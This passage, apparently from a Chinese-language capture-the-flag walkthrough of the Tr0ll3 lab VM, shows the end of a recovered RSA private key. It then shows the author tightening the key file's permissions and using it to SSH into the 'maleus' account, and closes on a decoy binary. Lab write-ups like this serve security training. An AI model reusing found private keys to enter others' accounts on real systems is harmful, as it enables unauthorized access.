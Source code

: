 ```
2H+AMzX/pIr9Vvk4TJ//JQKBgFNJcy9NyO46UVbAJ49kQ6WEDFjQhEp0xkiaO3aw
EC1g7yw3m+WH0X4AIsvt+QXtlSbtWkA7I1sU/7w+tiW7fu0tBpGqfDN4pK1+mjFb
5XKTXttE4lF9wkU7Yjo42ib3QEivkd1QW05PtVcM2BBUZK8dyXDUrSkemrbw33j9
xbOhAoGBAL8uHuAs68ki/BWcmWUUer7Y+77YI/FFm3EvP270K5yn0WUjDJXwHpuz
Fg3n294GdjBtQmvyf2Wxin4rxl+1aWuj7/kS1/Fa35n8qCN+lkBzfNVA7f626KRA
wS3CudSkma8StmvgGKIU5YcO8f13/3QB6PPBgNoKnF5BlFFQJqhK
-----END RSA PRIVATE KEY-----
```

现在我们尝试使用用户的私钥登录`maleus`。但是，SSH 服务禁止我们使用权限设置过宽的证书文件。因此，我们必须先提前缩小文件权限。

```
genphlux@Tr0ll3:~$ chmod 600 maleus 
genphlux@Tr0ll3:~$ ssh -i maleus maleus@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is SHA256:RhN530LgY0ZFQupkWWarB5Fnx9EjijFyl3zOp3scJ30.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-55-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

New release '20.04.4 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

maleus@Tr0ll3:~$ 
```

我们也会被文件误导`dont_even_bother`。如果我们运行它，系统会提示我们输入密码。

![image-20220718144106828](../../.gitbook/assets/image-20220718144106828.png)
